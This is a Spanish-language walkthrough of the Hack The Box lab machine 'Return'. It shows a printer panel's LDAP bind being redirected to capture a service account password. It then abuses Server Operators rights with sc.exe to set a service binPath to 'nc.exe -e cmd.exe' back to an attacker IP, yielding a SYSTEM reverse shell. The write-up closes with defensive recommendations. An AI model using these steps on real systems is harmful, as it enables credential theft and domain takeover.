# Return — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Windows  
**Autor de la máquina:** MrR3boot  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Windows Active Directory · Panel web de impresora · **Rogue LDAP Server** (captura de credenciales en texto claro) · `crackmapexec` · `evil-winrm` · Grupo *Server Operators* · Modificación de `binPath` con `sc.exe` · Service Hijacking → SYSTEM

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Captura de credenciales LDAP](#3-acceso-inicial--captura-de-credenciales-ldap)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=127 time=33.0 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=127` es revelador: los sistemas Windows inician el TTL en 128, por lo que un valor cercano (127 tras un salto de red) indica que estamos frente a una máquina **Windows**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  ncacn_http
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
```

> 💡 La combinación de puertos es inconfundible: **DNS (53), Kerberos (88), LDAP (389/636/3268/3269), SMB (445), WinRM (5985)** y **RDP (3389)** es la huella exacta de un **Controlador de Dominio Windows / Active Directory**. La presencia simultánea de `kerberos-sec` y los puertos LDAP confirma el rol AD DS.

---

### Enumeración detallada

Lanzamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sCV -T5 -p53,80,88,135,139,389,445,464,593,636,3268,3269,3389,5985 10.129.X.X -oN Targeted
```



Datos clave extraídos:

```text
80/tcp   open  http          Microsoft IIS httpd
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: ...)
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP
                              Domain: return.local, Site: Default-First-Site-Name
445/tcp  open  microsoft-ds  Windows Server 2019 (workgroup: RETURN)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Anotamos el dominio **`return.local`**. Lo añadimos a `/etc/hosts` para que las herramientas que consulten por nombre resuelvan correctamente:

```bash
echo "10.129.X.X  return.local printer.return.local" | sudo tee -a /etc/hosts
```

---

## 2. Enumeración del servicio web

Accedemos al puerto `80`, que aloja el panel web administrativo de una **impresora corporativa**.

```text
http://10.129.X.X/
```

Navegando al menú **Settings** descubrimos el formulario de configuración del servicio LDAP usado por la impresora para autenticar usuarios:



```text
Server Address: printer.return.local
Server Port:    389
Username:       svc-printer
Password:       *******
```

El formulario **acepta cualquier dirección IP arbitraria** en el campo *Server Address* sin validación. Cuando se pulsa **Update** —o cuando la impresora realiza una operación que requiere autenticar contra LDAP— inicia una conexión hacia el servidor configurado y envía las credenciales del **bind** en texto plano.

> 💡 Este patrón es **muy común en impresoras y equipos multifuncionales** mal configurados. El servicio almacena unas credenciales privilegiadas (típicamente una cuenta de servicio del dominio) y las envía al "servidor LDAP" que el administrador indique en la interfaz web —sin verificar TLS, sin validar el destino, sin confirmar previamente la identidad—. Cualquiera con acceso al panel puede redirigir la conexión a un servidor controlado por él y **recoger las credenciales en claro**.

---

## 3. Acceso inicial — Captura de credenciales LDAP

### Preparación del servidor LDAP malicioso

En la máquina atacante levantamos un listener simple sobre el puerto `389/TCP`. Aunque no implementaremos el protocolo LDAP completo, los primeros bytes que enviará la impresora durante el `bind` contendrán el DN y la contraseña en texto claro, perfectamente legibles con un simple `netcat`:

```bash
sudo nc -lvnp 389
```



> 💡 LDAP usa codificación ASN.1/BER, por lo que la captura no es 100 % "texto plano legible". Sin embargo, los campos del *simpleBind* —`name` (DN) y `authentication`/`simple` (password)— aparecen como cadenas legibles dentro de la trama, separadas por bytes de control. En la mayoría de casos `nc` es suficiente; cuando no lo es, `Wireshark` con el disector LDAP, o un servidor falso real como `ldap-monitor`, harán el trabajo.

---

### Forzando la conexión hacia nosotros

Modificamos en el panel web el campo *Server Address* sustituyendo `printer.return.local` por nuestra IP de atacante, y pulsamos **Update**:



```text
Server Address: 10.10.X.X
Server Port:    389
Username:       svc-printer
Password:       *******
```

Inmediatamente, nuestro `nc` recibe la conexión entrante y captura las credenciales:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 59089
0*`%return\svc-printer@
                        1edFg43012!!
```

Extraemos el par limpio:

```text
Usuario: return\svc-printer
Contraseña: 1edFg43012!!
```

---

### Validación de las credenciales

Antes de continuar, comprobamos contra qué servicios sirven estas credenciales utilizando `crackmapexec` contra WinRM:

```bash
crackmapexec winrm 10.129.X.X -u 'svc-printer' -p '1edFg43012!!'
```



```text
SMB     10.129.X.X  5985  PRINTER  [*] Windows 10 / Server 2019 Build 17763 (name:PRINTER) (domain:return.local)
HTTP    10.129.X.X  5985  PRINTER  [*] http://10.129.X.X:5985/wsman
WINRM   10.129.X.X  5985  PRINTER  [+] return.local\svc-printer:1edFg43012!! (Pwn3d!)
```

El marcador `(Pwn3d!)` indica que el usuario `svc-printer` tiene acceso WinRM y, además, puede ejecutar comandos remotamente.

> 💡 `crackmapexec` (CME / NetExec) es la navaja suiza para entornos Active Directory: prueba credenciales en SMB, WinRM, MSSQL, RDP, SSH, FTP, LDAP, etc., y enumera permisos en una sola pasada. La etiqueta `Pwn3d!` aparece cuando el usuario puede ejecutar código en el host —no significa necesariamente *admin local*, pero sí que es una vía válida de RCE—.

---

## 4. Obtención de shell

### Conexión WinRM con Evil-WinRM

Establecemos una sesión interactiva:

```bash
evil-winrm -i 10.129.X.X -u 'svc-printer' -p '1edFg43012!!'
```



```text
*Evil-WinRM* PS C:\Users\svc-printer\Documents> whoami
return\svc-printer
```

✅ Disponemos de una shell PowerShell como `svc-printer`.

---

### Enumeración de privilegios — Grupo *Server Operators*

Comprobamos los grupos a los que pertenece el usuario:

```powershell
net user svc-printer
```



Salida relevante:

```text
Local Group Memberships  *Print Operators       *Remote Management Use
                         *Server Operators
Global Group memberships *Domain Users
```

La pertenencia a **`Server Operators`** es la clave de toda la escalada. Este grupo nativo de Windows otorga, entre otros, los siguientes derechos sobre el equipo:



| Derecho | Implicación |
|---|---|
| Sign in to a server interactively | Login local en DCs |
| Create and delete network shared resources | Modificar *shares* SMB |
| **Stop and start services** | **Reiniciar cualquier servicio del sistema** |
| Back up and restore files | Saltarse ACLs vía `SeBackupPrivilege` |
| Format the hard disk drive | Destrucción de datos |
| Shut down the device | Apagado/reinicio |

> 💡 ***Server Operators* es un grupo extremadamente potente** —en la práctica, equivalente a admin local en DCs—. La capacidad de *parar y arrancar servicios* combinada con la de modificar su `binPath` permite **inyectar código en cualquier servicio del sistema** y obtener ejecución como la cuenta de servicio, que en la inmensa mayoría de casos es `LocalSystem`.

---

### Identificación de un servicio explotable

Listamos los servicios y sus rutas de ejecución para encontrar uno que corra como `SYSTEM` y podamos manipular:

```powershell
services
```



Entre los listados destaca **`VMTools`** (`C:\Program Files\VMware\VMware Tools\vmtoolsd.exe`). Es un servicio del sistema —arranca como `LocalSystem` por defecto— y, por estar en `Server Operators`, podemos modificar su configuración.

---

### Preparación del payload

Usaremos `nc.exe` (la versión Windows de netcat) como *handler* del binario del servicio. Localizamos el binario en nuestra Kali:

```bash
locate nc.exe
```



Copiamos una copia local:

```bash
cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```


Y lo subimos al objetivo a través de la sesión Evil-WinRM (que dispone del comando `upload` nativamente):

```powershell
upload /home/arabot/Documentos/HTB/eJPTv2/return/content/nc.exe
dir
```



`nc.exe` queda alojado en `C:\Users\svc-printer\Documents\nc.exe`.

---

### Hijacking del servicio VMTools

Modificamos la propiedad `binPath` del servicio `VMTools` para que, al arrancar, ejecute nuestro `nc.exe` en modo cliente, lanzando una shell `cmd.exe` hacia nuestra IP:

```powershell
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.X.X 444"
```



```text
[SC] ChangeServiceConfig SUCCESS
```

### Desglose del comando

| Componente | Función |
|---|---|
| `sc.exe config` | Modifica la configuración de un servicio existente |
| `VMTools` | Nombre del servicio objetivo |
| `binPath=...` | Nueva ruta del binario que el Service Control Manager ejecutará al arrancar |
| `nc.exe -e cmd.exe` | Invoca `cmd.exe` y redirige sus *stdin*/*stdout* al socket de red |
| `10.10.X.X 444` | Endpoint del listener atacante |

> 💡 **Atención al espacio entre `binPath=` y el valor**: `sc.exe` lo exige por compatibilidad con el formato histórico de la herramienta. Sin él, el comando falla silenciosamente o con error críptico.

---

### Detonación del payload

Ponemos un listener en la máquina atacante:

```bash
nc -lvnp 444
```

Y reiniciamos el servicio para que cargue la nueva `binPath`:

```powershell
sc.exe stop  VMTools
sc.exe start VMTools
```



El servicio falla al "arrancar" (porque nuestro `nc.exe` no implementa el protocolo de control de servicios de Windows), pero **el Service Control Manager ya ha ejecutado el binario como `LocalSystem`** —tiempo más que suficiente para que la conexión inversa se establezca—.

Nuestro `nc` recibe la conexión:

```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 53889
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```

Comprobamos el contexto de ejecución:

```cmd
whoami
```



```text
nt authority\system
```

> 💡 `NT AUTHORITY\SYSTEM` es la cuenta más privilegiada de Windows, equivalente a `root` en Linux. Al obtenerla en un **Controlador de Dominio** comprometemos no solo el equipo sino, en la práctica, el dominio completo: podemos volcar `NTDS.dit`, crear cuentas de Domain Admin, modificar GPOs, etc.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `SYSTEM`, solo queda localizar las flags del sistema.

### Flag de usuario

La flag de usuario reside en el escritorio del usuario de servicio:

```cmd
type C:\Users\svc-printer\Desktop\user.txt
```

### Flag de root

La flag de administrador se encuentra en el directorio del Administrator del dominio:

```cmd
type C:\Users\Administrator\Desktop\root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra cómo una mala práctica histórica en dispositivos perimetrales (impresoras, NAS, MFP) combinada con una asignación de privilegios excesiva en Active Directory permite el compromiso total de un DC.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Panel web sin validación del destino LDAP | `settings.php` de la impresora | Redirección del *bind* a un servidor controlado por el atacante |
| Credenciales de servicio almacenadas en claro | Configuración de la impresora | Robo trivial de la cuenta `svc-printer` |
| Cuenta de servicio con WinRM | `svc-printer` en `Remote Management Users` | RCE remoto a través de WinRM (puerto 5985) |
| Cuenta de servicio en *Server Operators* | Grupo nativo de Windows | Capacidad para modificar y reiniciar servicios |
| Servicios del sistema modificables | `sc.exe config VMTools binPath=...` | *Service hijacking* → ejecución como `LocalSystem` |

---

## Recomendaciones defensivas

- Validar siempre el destino antes de aceptar la configuración LDAP en panel web: certificado, *whitelist* de hosts permitidos, comprobación reversa DNS.
- Forzar **LDAPS** (LDAP sobre TLS) en cualquier dispositivo que consuma directorio corporativo, y deshabilitar el *simple bind* sobre el puerto 389.
- No usar cuentas de dominio privilegiadas para el *bind* de impresoras y dispositivos similares: crear cuentas de **solo lectura** con OU limitada.
- Restringir el acceso al panel administrativo de las impresoras: red de gestión separada, autenticación robusta, cifrado.
- Auditar la pertenencia a grupos sensibles (`Server Operators`, `Backup Operators`, `Print Operators`): solo cuentas estrictamente necesarias.
- Implementar el principio de **mínimo privilegio**: las cuentas de servicio deben tener únicamente los permisos necesarios para la función que cumplen.
- Monitorizar `sc.exe config`, modificaciones de `ImagePath` en el registro, y eventos `7045` / `7036` que reflejan cambios en servicios.
- Aplicar segmentación de red: aislar las impresoras y los DCs en VLANs separadas; restringir las comunicaciones LDAP entre ellos.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
